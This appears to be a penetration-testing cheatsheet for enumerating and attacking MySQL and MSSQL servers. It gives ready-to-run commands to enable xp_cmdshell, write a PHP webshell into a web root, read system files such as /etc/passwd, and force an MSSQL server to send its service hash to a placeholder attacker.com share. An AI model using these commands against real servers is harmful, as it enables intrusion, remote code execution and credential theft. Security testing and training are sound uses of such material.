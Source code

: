 # SQL Enumeration Cheatsheet

Enumerating MySQL (port 3306) and MSSQL (ports 1433, 2433) services.

## 1. Enumerate SQL Service and Version (nmap)
Gather SQL service and version information.
```
nmap -Pn -sV -sC -p1433,3306 target.com
```
- `-Pn`: Skips host discovery.
- `-sV`: Detects service and version.
- `-sC`: Runs default scripts (e.g., `ms-sql-info`).

## 2. Connect to MySQL (mysql)
Connect to a MySQL server.
```
mysql -u user -p'password' -h target.com
```
- `-u user`: Specify username.
- `-p'password'`: Specify password.
- `-h`: Target host.

## 3. Connect to MSSQL (sqlcmd)
Connect to an MSSQL server from Windows.
```
sqlcmd -S target.com -U user -P 'password' -y 30 -Y 30
```
- `-S`: Target server.
- `-U user`: Username.
- `-P 'password'`: Password.
- `-y 30 -Y 30`: Adjusts output width.

## 4. Connect to MSSQL from Linux (sqsh)
Connect to MSSQL from Linux.
```
sqsh -S target.com -U user -P 'password' -h
```
- `-S`: Target server.
- `-U user`: Username.
- `-P 'password'`: Password.
- `-h`: Disables headers for cleaner output.

## 5. Connect to MSSQL with Windows Auth (sqsh)
Connect to MSSQL using Windows Authentication.
```
sqsh -S target.com -U .\\user -P 'password' -h
```
- `-U .\\user`: Username with local host prefix for Windows Auth.

## 6. Show MySQL Databases
List all available databases in MySQL.
```
mysql> SHOW DATABASES;
```

## 7. Select MySQL Database
Switch to a specific database in MySQL.
```
mysql> USE dbname;
```

## 8. Show MySQL Tables
List tables in the selected database in MySQL.
```
mysql> SHOW TABLES;
```

## 9. Select MySQL Table Data
Retrieve all entries from a table in MySQL.
```
mysql> SELECT * FROM users;
```

## 10. Show MSSQL Databases
List all available databases in MSSQL.
```
sqlcmd> SELECT name FROM master.dbo.sysdatabases
sqlcmd> GO
```

## 11. Select MSSQL Database
Switch to a specific database in MSSQL.
```
sqlcmd> USE dbname
sqlcmd> GO
```

## 12. Show MSSQL Tables
List tables in the selected database in MSSQL.
```
sqlcmd> SELECT * FROM dbname.INFORMATION_SCHEMA.TABLES
sqlcmd> GO
```

## 13. Select MSSQL Table Data
Retrieve all entries from a table in MSSQL.
```
sqlcmd> SELECT * FROM users
sqlcmd> GO
```

## 14. Enable xp_cmdshell in MSSQL
Enable command execution in MSSQL (requires admin privileges).
```
sqlcmd> EXECUTE sp_configure 'show advanced options', 1
sqlcmd> GO
sqlcmd> RECONFIGURE
sqlcmd> GO
sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1
sqlcmd> GO
sqlcmd> RECONFIGURE
sqlcmd> GO
```

## 15. Execute System Command in MSSQL
Run a system command via MSSQL (if xp_cmdshell enabled).
```
sqlcmd> xp_cmdshell 'whoami'
sqlcmd> GO
```

## 16. Write File in MySQL
Create a file (e.g., webshell) using MySQL (requires FILE privilege).
```
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

## 17. Check MySQL File Privileges
Verify if secure_file_priv is empty for file operations.
```
mysql> show variables like "secure_file_priv";
```

## 18. Read Local Files in MySQL
Read local files in MySQL (requires FILE privilege).
```
mysql> select LOAD_FILE("/etc/passwd");
```

## 19. Read Local Files in MSSQL
Read local files in MSSQL (requires read access).
```
sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
sqlcmd> GO
```

## 20. Steal MSSQL Service Hash (xp_dirtree)
Force MSSQL to authenticate to a fake SMB share.
```
sqlcmd> EXEC master..xp_dirtree '\\attacker.com\share\'
sqlcmd> GO
```

## 21. Steal MSSQL Service Hash (xp_subdirs)
Force MSSQL to authenticate to a fake SMB share.
```
sqlcmd> EXEC master..xp_subdirs '\\attacker.com\share\'
sqlcmd> GO
```

## 22. Identify Linked Servers in MSSQL
List linked servers in MSSQL.
```
sqlcmd> SELECT srvname, isremote FROM sysservers
sqlcmd> GO
```

## 23. Query Linked Server in MSSQL
Check user and privileges on a linked server.
```
sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [linkedserver.com]
sqlcmd> GO
```

## Tips
- Check for weak credentials or misconfigurations (e.g., anonymous access, empty secure_file_priv).
- Use tools like Responder or impacket-smbserver to capture hashes with xp_dirtree/xp_subdirs.
- Ensure admin privileges for advanced actions (e.g., xp_cmdshell, linked server queries).
- Be cautious with command execution and file operations; verify permissions.